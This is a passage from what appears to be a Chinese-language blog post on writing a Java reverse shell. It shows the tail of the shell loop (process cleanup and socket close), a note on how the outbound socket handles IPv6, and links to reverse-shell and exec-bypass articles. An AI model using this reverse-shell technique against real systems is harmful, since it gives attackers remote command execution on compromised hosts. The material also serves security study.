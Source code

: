 ```java
        p.exitValue();  
        break;  
    }  
    catch (Exception e){  
    }  
};  
p.destroy();  
s.close();
```

我们直接通过`Socket s=new Socket(host,port);`这种方式，按照[https://docs.oracle.com/javase/7/docs/technotes/guides/net/ipv6_guide/](https://docs.oracle.com/javase/7/docs/technotes/guides/net/ipv6_guide/)的说明:

> You can run the same bytecode for this example in IPv6 mode if both your local host machine and the destination machine (taranis) are IPv6-enabled.

即如果目标机器和本地机器都支持IPv6，则使用IPv6。

# 参考文章
https://blog.spoock.com/2018/11/07/java-reverse-shell/
https://www.cnblogs.com/BOHB-yunying/p/15523680.html
https://blog.spoock.com/2018/11/25/getshell-bypass-exec/
